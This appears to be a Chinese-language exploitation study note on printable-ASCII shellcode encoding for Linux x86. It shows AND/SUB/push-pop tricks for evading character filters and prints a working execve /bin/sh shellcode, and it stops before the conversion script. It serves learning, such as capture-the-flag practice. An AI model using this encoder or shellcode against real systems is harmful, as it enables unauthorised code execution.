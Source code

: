 简介 : 
```
可打印字符
```
经验 : 
```
(发现一个经验 , 如果需要反复对内存进行 malloc/free 操作的时候 , malloc后要 memset(pointer, 0 , size))
关于 C 堆内存分配 , 可以参考文章 : 
http://blog.csdn.net/baijd_ss/article/details/6741855
http://blog.csdn.net/ermuzhi/article/details/7833701
```
环境 : 
```
Linux x86
```
分析 : 
```
可打印的指令 : 
	and eax, [NUMBER]		
	sub eax, [NUMBER]
	push eax
	pop eax
	push esp
	pop esp
```
方法 : 
```
1. 使用 and 来清空 eax 
2. 在 eax 清空后 , 可以使用 sub 指令来将 eax 设置为任意值 (缠绕的思想)
3. 通过 (push eax , pop esp) 以及 (push esp , pop eax) 可以进行 esp 和 eax 之间的数据转移
4. 这样就可以首先将已经写好的一段 shellcode 使用第 1 步和第 2 步进行转换
5. 转换的结果当然都是可打印字符 , 这样编码完成后 , 我们就可以使用第 2 步来将真正的shellcode压入栈
6. 调整栈指针 , 让 shellcode 执行
```
可打印字符的特点 : 
```
ASCII 的范围是 32 - 127
也就是 : 
0010 0000 - 0111 1111
我们如何来使用只有 ASCII 的指令将 eax 清空呢 ? 
01010101 & 10101010 = 0
[I] & [0] = 0 (0x49, 0x30)
这样就可以达到清空的效果 , 当然这个也可以随意调整 , 只要能保证按位与之后为 0 即可
add eax, 49494949H
add eax, 30303030H
汇编之后的机器码为 : 
8048065:	25 49 49 49 49			and    $0x49494949,%eax
804806a:	25 30 30 30 30			and    $0x30303030,%eax
可以看到都是可打印字符 , 而且已经绕过了诸如 : * / \ 这样的特殊字符
```
一段正常的shellcode : 
```
\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\x99\xcd\x80
```
我们现在要使用 sub 指令来将 eax 一个一个调整为 shellcode 中的数据
然后再将其压到栈上
首先看第一个 : 
\x31\xc9\x51\x68
为了提高效率我们这里可能需要写一个脚本来进行运算

